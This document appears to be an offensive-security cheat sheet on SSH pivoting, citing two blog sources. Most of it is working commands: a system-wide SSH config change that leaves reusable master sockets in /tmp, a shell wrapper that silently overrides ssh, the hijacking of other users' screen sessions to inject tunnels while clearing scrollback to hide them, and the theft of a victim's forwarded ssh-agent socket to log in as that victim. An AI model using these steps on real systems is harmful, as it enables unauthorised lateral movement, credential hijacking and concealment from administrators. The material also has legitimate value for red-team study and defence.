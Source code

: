 # SSH pivoting

Pivoting through SSH

- ControlMaster via SSH client config

- ControlMaster via shell functions

- Hijacking `screen` sessions to create on-the-fly tunnels

## ControlMaster via SSH client config

Alter the system-wide ssh config:

    Host *
    ControlPath /tmp/%r@%h:%p
    ControlMaster auto
    ControlPersist yes

All new SSH sessions will create persistent brokering maste r sockets. in `/tmp`. These sockets can be used to create further sessions, without credentials, even after the original user exits their session.

    ssh -S /tmp/pwnduser@10.0.1.51:22 %h

This can also be used to create a dynamic tunnel inside an existing master socket.

    ssh -O forward -D 9090 -S /tmp/pwnduser@10.0.1.51:22 %h

The master socket needs to be exited explicitly:

    ssh -O exit -S /tmp/pwnduser@10.0.1.51:22 %h

## ControlMaster via shell functions

Depending on `$PATH`, you should be able to use this wrapper function to create sockets on behalf of the user.

```bash
ssh () 
{ 
    /usr/bin/ssh -o "ControlMaster=auto" -o "ControlPath=/tmp/%r@%h:%p" -o "ControlPersist=yes" "$@";
}
```

## Hijacking screen sessions to create on-the-fly tunnels

Check `/var/run/screen` or run `screen -r`. You can then `su - pwnduser` but you can't directly connect to the screen (can't open terminal error).

To bypass this, use the `script` binary. Example:

    root@box:~# su - pwnduser
    pwnduser@box:~$ screen -ls
    There is a screen on:
           17228.ssh_session (20/10/2019 16:54:22) (detached)
    1 Socket in /var/run/screen/S-pwnduser
    
    pwnduser@box:~$ script /dev/null
    Script started, file is /dev/null
    pwnduser@box:~$ screen -x 17228.ssh_session

We can then insert a tunnel on the fly by making use of the SSH 'escape subshell'. In an ssh session type `~C`. Then `-D:<port>` to add a dynamic forward on the fly. (You can also type `help` here to see what's possible)

This will not work inside `screen` ssh sessions however, as your own `ssh` session will catch the `~C`. So we will need to use the `-X stuff` from outside of the screen session.

    su - pwnduser
    pwnduser@box:~$ screen -S 17228.ssh_session -p 0 -X stuff $'~C'
    pwnduser@box:~$ screen -S 17228.ssh_session -p 0 -X stuff $'-D:9090\n\n'

Stuff'd text is visible inside a session's scrollback. Prevent this by changing scrollback to 0 lines, clearing the screen then setting it back.

    screen -S 18323.my_ssh_session -X scrollback 0
    screen -S 18323.my_ssh_session -p 0 -X stuff $'~C'
    screen -S 18323.my_ssh_session -p 0 -X stuff $'-D:9090\nclear\n'
    screen -S 18323.my_ssh_session -X scrollback 15000

Then, the last piece of the puzzle is to create a local port on the intermediary machine we used so we can connect to it externally.

    root@box:~# (insert ~C)
    ssh> -L7070:localhost:9090
    Forwarding port.
    
    root@box:~# ~#
    The following connections are open:
    (...etc, this should have your forward in it)

## Sockets

When Forward-Agent is used

Find the SSHd process of the victim

    ps uax|grep sshd

Looks for the SSH_AUTH_SOCK on victim's environment variables

    grep SSH_AUTH_SOCK /proc/<pid>/environ

Hijack's victim's ssh-agent socket

    SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l

Login to remote systems as the victim

    ssh remote_system -l victim



Sources:

- [0xthem](http://0xthem.blogspot.com/2015/03/hijacking-ssh-to-inject-port-forwards.html)
- [xorl](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)
